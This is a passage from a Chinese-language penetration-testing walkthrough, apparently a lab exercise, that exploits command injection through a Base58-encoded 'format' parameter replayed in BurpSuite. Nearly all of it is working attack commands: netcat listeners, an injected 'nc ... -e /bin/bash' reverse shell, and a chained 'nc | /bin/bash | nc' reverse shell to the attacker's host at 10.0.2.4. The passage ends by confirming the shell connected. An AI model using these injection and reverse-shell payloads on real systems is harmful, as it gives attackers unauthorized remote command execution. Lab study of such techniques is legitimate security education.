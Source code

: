 kali：

```
nc -nvlp 4444  #nc侦听4444端口
```

![image-20211104085819231](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104085819231.png)

CyberChef:

```
&&nc 10.0.2.4 4444 -e /bin/bash --To Base58-->ajvuL5RnJqominfmDbYteLFr6rCZdb3VR633BCa2fH
```

BurpSuite:

```
--Repeater内将format参数值替换为ajvuL5RnJqominfmDbYteLFr6rCZdb3VR633BCa2fH-->Send重放
```

![image-20211104090046890](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104090046890.png)

仍然报错，说明不包含-e参数，且nc建立连接失败，则**确定目标系统上nc版本不包含-e参数**

##### 2.若无则可以使用**nc串联**的方法通过管道方式在两个侦听接口上获得反弹shell

kali:

```
nc -nvlp 4444  #nc侦听4444端口
```

```
nc -nvlp 5555  #nc侦听5555端口
```

![image-20211104092959229](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104092959229.png)

CyberChef:

```
&&nc 10.0.2.4 4444 | /bin/bash | nc 10.0.2.4 5555
```

--To Base58-->

```
7BFuYVuCc4LN4GRLNFCY4RZyKX7GVbfGEaUnJSCQ2RUmJmcZNi67Nw5ewqKqyTusCZS
```

BurpSuite:

```
--Repeater内将format参数值替换为7BFuYVuCc4LN4GRLNFCY4RZyKX7GVbfGEaUnJSCQ2RUmJmcZNi67Nw5ewqKqyTusCZS-->Send重放
```

![image-20211104093156854](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104093156854.png)

至此，nc**建立连接成功**
